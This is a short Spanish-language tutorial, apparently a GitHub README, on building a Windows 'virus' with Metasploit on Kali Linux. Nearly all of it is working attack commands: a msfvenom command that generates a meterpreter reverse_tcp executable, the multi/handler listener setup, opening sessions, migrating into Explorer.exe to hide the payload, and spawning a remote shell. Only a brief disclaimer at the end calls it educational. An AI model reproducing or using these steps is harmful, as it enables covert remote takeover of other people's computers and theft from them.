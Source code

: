 # Creación de Virus y Control Remoto del Equipo Víctima con Kali Linux


## Introducción

En este tutorial, aprenderás cómo crear un virus usando el Metasploit Framework en Kali Linux. Este proceso incluye la generación de un payload y la configuración de un servidor para interactuar y controlar remotamente el equipo infectado.

### Creación del Payload

Para comenzar, necesitas abrir una terminal en Kali Linux y ejecutar el siguiente comando:

```msfvenom -p windows/meterpreter/reverse_tcp LHOST=[tu IP] LPORT=9999 -a x86 –platform windows -o /root/Desktop/virus.exe -f exe```

`-p`: Especifica el payload a utilizar.
`-a`: Define la arquitectura que utilizará el virus.
`--platform`: Determina la plataforma en la que actuará el virus.
`-o`: Establece el directorio donde se guardará el virus.
`-f`: Define el formato en el que se guardará el virus.

# Creación del Servidor
Para interactuar con los equipos infectados, abre otra terminal y ejecuta:
msfconsole

Dentro de Metasploit, configura el handler para el payload:
`use multi/handler`
`set PAYLOAD windows/meterpreter/reverse_tcp`
`set LHOST 192.168.1.116`
`set LPORT 9999`
`exploit -j`

# Explotación y Control Remoto
Una vez que el virus se ejecute en una máquina Windows, podrás controlarla remotamente. Usa el comando `sessions -i` para ver las sesiones activas y conectarte a la máquina atacada:
`sessions -i 1`

Con esto, tendrás acceso a los procesos de la máquina infectada. Puedes ocultar el virus fusionándolo con otro proceso como `Explorer.exe` usando el comando `migrate`.

# Obtención de la Shell Remota
Para interactuar directamente con la máquina infectada:
`shell`

Advertencia
Este tutorial es meramente educativo. Crear y distribuir virus es una actividad ilegal en muchas jurisdicciones. Este conocimiento debe usarse solo en entornos controlados y con fines educativos.

